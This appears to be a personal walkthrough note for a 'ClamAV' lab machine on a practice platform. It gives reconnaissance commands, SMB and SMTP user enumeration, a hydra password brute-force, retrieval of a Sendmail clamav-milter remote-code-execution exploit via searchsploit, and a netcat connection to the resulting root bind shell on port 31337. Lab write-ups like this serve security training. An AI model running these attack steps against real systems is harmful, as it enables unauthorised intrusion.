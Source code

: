 # NMAP

```
sudo nmap -sC -sV 192.168.247.42  -oN nmap-clamav
```

![[PG/Linux/attachments/Pasted image 20250704122033.png]]
- 445 is open.. 
- smux?


All ports

![[PG/Linux/attachments/Pasted image 20250704122141.png]]
- what's 60,000?

```
sudo nmap -p 60000 -sV -sC 192.168.247.42 -oN nmap-60000
```

![[PG/Linux/attachments/Pasted image 20250704122728.png]]
- openssh
# Website 

![[PG/Linux/attachments/Pasted image 20250704122354.png]]

## Gobust

```
gobuster dir -u http://192.168.247.42/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -o gobust.out
```

Jokezzz
![[PG/Linux/attachments/Pasted image 20250704122632.png]]

![[PG/Linux/attachments/Pasted image 20250704122654.png]]
- nothing from gobuster

# SMB 

```
nxc smb 192.168.247.42 -u 'admin' -p 'admin' --shares
```


![[PG/Linux/attachments/Pasted image 20250704122842.png]]
- print$ share
- smbd 3.0.14a-Debian 
- no immediate exploits for this 

## smbclient 

```
smbclient -U root -L //192.168.247.42/print$
```
- nope

```
smbclient -U postmaster -L //192.168.247.42/print$
```
# SMTP

Sendmail 8.13.4/8.13.4/Debian-3sarge3

Connection test 

```
telnet 192.168.247.42 25
```

![[PG/Linux/attachments/Pasted image 20250704124036.png]]
- root exists

Enum usernames and save to a file..

```
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.247.42
```

Testing this binary as a password, but nothing promising with nxc ifyoudontpwnmeuran00b

![[PG/Linux/attachments/Pasted image 20250704124923.png]]

Maybe will try enum4linux 

# Enum4linux

Enum usernames
```
enum4linux -U 192.168.247.42
```

![[PG/Linux/attachments/Pasted image 20250704125649.png]]

# Linux SNMP multiplexer

```
snmp-check 192.168.247.42 -c public
```

# Hydra

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt smtp://192.168.247.42
```
- fail

# Lookup ClamAV on searchsploit...

Sendmail with clamav-milter < 0.91.2 -Remote Code Execution Exploit

```
searchsploit -m multiple/remote/4761.pl
```

![[PG/Linux/attachments/Pasted image 20250704140754.png]]

This opens port 31337?

```
nmap -p 31337 192.168.247.42
```

![[PG/Linux/attachments/Pasted image 20250704140936.png]]

Grab root shell with 
```
nc 192.168.247.42 31337
```

allegedly..

![[PG/Linux/attachments/Pasted image 20250704141327.png]]

stupid.